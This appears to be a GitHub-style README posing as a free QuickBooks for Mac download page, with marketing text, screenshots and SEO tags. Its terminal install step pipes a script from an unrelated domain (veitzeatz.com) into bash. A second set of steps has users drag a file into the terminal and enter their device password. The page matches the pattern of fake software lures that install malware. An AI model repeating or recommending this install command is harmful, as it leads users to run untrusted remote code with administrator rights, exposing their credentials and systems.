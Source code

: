 # QuickBooks For Mac — Free Download For macOS 📊

Easily manage your finances with QuickBooks for Mac. Follow the step-by-step instructions below to download and install this powerful accounting software for free.  

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)]()  

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install QuickBooks For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with QuickBooks

- 📈 **Streamlined Bookkeeping**: Automate expense tracking and categorize transactions effortlessly.  
- 💸 **Invoicing Made Simple**: Create and send professional invoices in minutes.  
- 📊 **Financial Reports**: Generate detailed reports to monitor your business performance.  
- 🔄 **Sync with Bank Accounts**: Connect your bank accounts for real-time updates.  
- 🛠 **Tax Preparation**: Simplify tax season with organized records and deductions.  
- 🌐 **Cloud Integration**: Access your data anywhere with QuickBooks’ cloud features.

## About QuickBooks

QuickBooks for Mac is a leading accounting software designed to simplify financial management for small businesses and freelancers. Whether you’re tracking expenses, managing invoices, or preparing for tax season, QuickBooks offers a user-friendly interface tailored for macOS users. Its seamless integration with macOS ensures smooth performance, making it a go-to solution for professionals seeking efficiency.

With QuickBooks, you can automate repetitive tasks like expense categorization and bank reconciliation. The software supports integration with major banks, allowing you to sync transactions and monitor cash flow in real time. Its robust reporting tools provide insights into your business’s financial health, helping you make informed decisions. QuickBooks for Mac is optimized for Apple’s ecosystem, ensuring compatibility with the latest macOS versions.

The invoicing feature in QuickBooks is a standout, enabling users to create customized, professional invoices in just a few clicks. You can track payments, send reminders, and even accept online payments, streamlining your workflow. The software also supports multiple currencies, making it ideal for businesses operating globally. Its cloud-based features allow you to access your data from any device, ensuring flexibility and convenience.

For tax preparation, QuickBooks simplifies the process by organizing your financial data and generating reports that align with tax requirements. The software’s intuitive dashboard provides a clear overview of your income, expenses, and outstanding invoices, reducing the stress of financial management. QuickBooks for Mac is designed to save you time, letting you focus on growing your business.

**Why Choose QuickBooks?** QuickBooks stands out for its ease of use, macOS optimization, and comprehensive feature set. Unlike other accounting tools, it combines powerful functionality with a clean, Apple-inspired design. Regular updates ensure compatibility with the latest macOS releases, while its cloud sync and mobile app keep you connected on the go. Whether you’re a freelancer or a small business owner, QuickBooks offers unmatched reliability and efficiency.

## 🖼 Preview

![Dashboard View](https://http-download.intuit.com/http.intuit/CMO/apple_web/sample/static/qbomac/content/download/images/laptop.png)  
*QuickBooks dashboard for easy financial tracking*

![Invoice Creation](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/97dc2024-ebe7-42d9-885e-6e743c1c0f9d.png)  
*Create professional invoices in minutes*

![Reports Interface](https://lh3.googleusercontent.com/R3f03cREsI4n4134jy7k8Nk5U1zRauPOXBtsC-ghhEY6qIUdMlStd6iQFY8WA0GOpUve0XnWClmwiUPlo1d5oM3f=s1280-w1280-h800)  
*Generate detailed financial reports effortlessly*

## 🔍 Tags

QuickBooks free, QuickBooks download, QuickBooks download free, QuickBooks for Mac, download QuickBooks macOS, QuickBooks free download, macOS accounting tool, QuickBooks installation guide, QuickBooks free mac, QuickBooks mac, QuickBooks mac os, QuickBooks download mac
